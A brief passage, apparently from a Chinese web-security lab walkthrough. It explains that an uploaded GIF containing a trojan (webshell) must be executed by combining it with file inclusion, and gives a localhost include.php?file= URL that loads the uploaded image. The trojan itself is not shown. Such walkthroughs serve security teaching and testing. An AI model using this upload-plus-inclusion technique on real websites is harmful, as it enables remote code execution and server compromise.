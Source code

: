 ![image-20230830203812922](./imgs/db973cf41bda25ad94e807ead5eb4a2d.png)

图片上传路径`upload/1820230830203805.gif`

要想触发木马，需要结合文件包含 来实现

```php
http://127.0.0.1/include.php?file=./upload/1820230830203805.gif
```

![image-20230830204029159](./imgs/45e881e48152753ded8d5eb83ca017f3.png)
